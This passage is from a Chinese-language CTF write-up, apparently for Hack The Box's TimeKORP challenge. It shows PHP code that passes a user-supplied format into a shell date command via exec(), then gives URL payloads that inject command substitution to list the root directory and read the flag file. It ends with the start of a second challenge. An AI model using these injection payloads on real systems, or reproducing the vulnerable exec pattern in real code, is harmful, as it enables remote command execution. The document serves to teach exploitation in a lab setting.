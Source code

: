 ```php=
    {
        // 使用 date 命令以指定的格式獲取當前時間
        $this->command = "date '+" . $format . "' 2>&1";
    }

    // 獲取格式化後的時間數據
    public function getTime()
    {
        // 執行先前建構的 shell 命令，獲取時間
        $time = exec($this->command);

        // 如果時間存在，將其返回；否則返回問號字串
        $res = isset($time) ? $time : '?';
        return $res;
    }
}

```

> 得知透過shell command 取得當下時間

### TimeKORP Solution
#### 1. Query 注入任何字元測試
```url
http://83.136.255.150:45177/?format=chw
```
![image](https://hackmd.io/_uploads/rkZHN83pa.png)

#### 2. 測試 $_GET['format'] 會不會擋其他不相關字元
```url
http://83.136.250.225:42403/?format=%H:%M:chw
```
![image](https://hackmd.io/_uploads/H154Ydn6a.png)

#### 3. 註解%H:%M:，後面注入command substitution 
```url
http://83.136.250.225:42403/?format=%H:%M:%27;$(ls%20/)%27
```

![image](https://hackmd.io/_uploads/HyMAtdnp6.png)

### Get FLAG
```
http://83.136.250.225:42403/?format=%H:%M:%27;$(cat%20/f*)%27
```
![image](https://hackmd.io/_uploads/BJQ8s_n6p.png)
**FLAG: HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}**

## Flag Command
![image](https://hackmd.io/_uploads/SJqCmY2aT.png)
http://94.237.49.182:48835/
![image](https://hackmd.io/_uploads/BkSeNF3pa.png)
翻譯年糕:
![image](https://hackmd.io/_uploads/rJDX4Y26a.png)
```
>> start
```
![image](https://hackmd.io/_uploads/By9FVt36p.png)
